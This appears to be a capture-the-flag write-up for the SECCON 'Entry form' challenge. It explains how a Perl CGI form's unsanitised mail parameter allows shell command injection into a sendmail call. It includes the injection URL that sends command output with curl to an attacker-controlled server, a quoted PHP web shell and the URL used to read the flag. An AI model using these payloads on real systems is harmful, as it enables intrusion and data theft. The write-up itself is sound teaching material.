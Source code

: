 Entry form
----------

Another pretty easy problem. We are given a link to a form where we can enter a username and email,
after submitting the form, the page says "Your entry was sent". Not very much going on here.

The page is a cgi script, and is probably injectable.

We take a look at the root of the web server (http://entryform.pwn.seccon.jp), and notice that it is shows
the directory structure. From there we find the file `register.cgi_bak`, apparently the source code for the
entry form:


Here is the most interesting part:
```
if($q->param("mail") ne '' && $q->param("name") ne '') {
  open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
  print SH "From: keigo.yamazaki\@seccon.jp\nTo: ".$q->param("mail")."\nSubject: from SECCON Entry Form\n\nWe received your entry.\n";
  close(SH);
  
  open(LOG, ">>log"); ### <-- FLAG HERE ###
  flock(LOG, 2);
  seek(LOG, 0, 2);
  print LOG "".$q->param("mail")."\t".$q->param("name")."\n";
  close(LOG);
```

Yup, we can inject commands into the "mail" query string argument after a single quote. We run `ls` with this url:
```
http://entryform.pwn.seccon.jp/register.cgi?mail=%27`curl%20<my server>:9999/%20--data%20%22$(ls)%22`%27&name=asdf&action=Send
```
Note: I used `curl -d` to send the results of the commands I ran to a server I controlled, but apparently that was not needed; you could just run the commandand the results would show up in the page.

Either way, next we try to run `cat log`, but this does not work because the user we are running commands as only has write permissions to that file.

Conveniently, we find a script `backdoor123.php` under the `SECRETS` directory on the web server. It provides a way around this issue:
```
<pre><?php system($_GET['cmd']); ?></pre>
```

From there, we simple run `head` to get the flag out of the log file.

The final url:
```
http://entryform.pwn.seccon.jp/SECRETS/backdoor123.php?cmd=head%20-n3%20../log
```

And the flag: SECCON{Glory_will_shine_on_you.}
